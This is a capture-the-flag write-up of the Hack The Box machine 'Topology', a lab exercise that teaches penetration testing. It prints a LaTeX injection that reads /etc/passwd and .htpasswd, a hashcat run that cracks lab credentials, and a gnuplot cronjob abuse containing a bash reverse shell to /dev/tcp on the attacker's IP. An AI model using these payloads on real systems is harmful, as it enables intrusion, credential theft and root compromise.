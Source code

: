 # HTB - Topology

#### Ip: 10.129.158.218
#### Name: Topology
#### Rating: Easy

------------------------------------------------

![Topology.png](../assets/topology_assets/Topology.png)

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 5000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ sudo nmap -p- --min-rate 5000 -sC -sV 10.129.158.218
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-27 16:02 CST
Nmap scan report for 10.129.158.218
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.63 seconds
```

Looking at the site we find a page for a university mathematics department:

![htb_topology_site.png](../assets/topology_assets/htb_topology_site.png)

The site has a link for "LaTeX Equation Generator - create .PNGs of LaTeX equations in your browser" which attempts to forward to latex.topology.htb, so let's add that to `/etc/hosts`.

Let's also scan for more VHOSTS before enumerating this further:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ ffuf -u http://topology.htb -H 'HOST: FUZZ.topology.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  -fw 1612 -mc all

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 1612
________________________________________________

[Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 76ms]
    * FUZZ: dev

[Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 73ms]
    * FUZZ: stats
```

Cool, two more VHOSTS, let's add these to `/etc/hosts` as well.

The dev page requires authentication, which we don't have yet, and the stats page seems to just offer server load stats, with no real information.

Now visiting the Latex site we find a LaTex Equation Generator:

htb_topology_latex.png

Entering one of the site's examples we find:

htb_topology_example.png

Looking at the webpage root we find a few files we can download:

htb_topology_index.png

Checking out the header.tex file we find the site is using listings, which may give us access to other files:

htb_topology_header.png

### Exploitation

Researching more about this I find: https://ctan.org/pkg/listings?lang=en which mentions using `\lstinputlisting` for file reads.

But trying something like: `\lstinputlisting[/etc/passwd` continues to fail.

Heading over to trusty HackTricks and looking up LaTex injection we find a helpful note:

```
You might need to adjust injection with wrappers as [ or $.
```
So with these we can now wrap our command in `$` symbols like: `$\lstinputlisting{/etc/passwd}$` and successfully read the file:

htb_topology_etc.png

Searching for interesting files, I finally find an `.htpasswd` file for the dev site discovered earlier:

htb_topology_hash.png

Let's crack this using Hashcat:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
==========================================================================================================================================
* Device #1: pthread--0x000, 1403/2870 MB (512 MB allocatable), 1MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR) | FTP, HTTP, SMTP, LDAP Server

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

<SNIP>

$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
```

Cool, we now have the credentials `vdaisley:calculus20`

We can use this to SSH in and grab the user.txt flag:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ ssh vdaisley@10.129.158.218
```

htb_topology_user.png

### Privilege Escalation

Poking around the box we find a directory called gnuplot in `/opt`:

```
vdaisley@topology:~$ cd /opt
vdaisley@topology:/opt$ ls
gnuplot
vdaisley@topology:/opt$ file gnuplot/
gnuplot/: directory
vdaisley@topology:/opt$ cd gnuplot/
vdaisley@topology:/opt/gnuplot$ ls
ls: cannot open directory '.': Permission denied
```

According to http://www.gnuplot.info/:

```
Gnuplot is a portable command-line driven graphing utility for Linux, Windows, macOS, OS/2, VMS, and other platforms.
```

Loading Pspy64 to the target to view running cronjobs, we see several jobs run by root coming out of the gnuplot directory:

htb_topology_cron.png


I'm particularly interested in the following cronjob:

```
/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
```

This folder is interesting because while we can't list files, we can write to it:

```
vdaisley@topology:/opt/gnuplot$ ls
ls: cannot open directory '.': Permission denied
vdaisley@topology:/opt/gnuplot$ touch test.txt
vdaisley@topology:/opt/gnuplot$ echo "hi" > test.txt
vdaisley@topology:/opt/gnuplot$ cat test.txt
hi
vdaisley@topology:/opt/gnuplot$ ls -la
ls: cannot open directory '.': Permission denied
```

So because the cronjob above is using wildcards and executing with gnuplot any `.plt` files, let's create one called shell.plt which will be executed with root permissions when the job runs:

```
system "bash -c 'bash -i >& /dev/tcp/10.10.14.162/443 0>&1'"
```

htb_topology_shell.png

Nice, we can now grab the final flag:

htb_topology_root.png

Thanks for following along!

-Ryan

-----------------------------------------
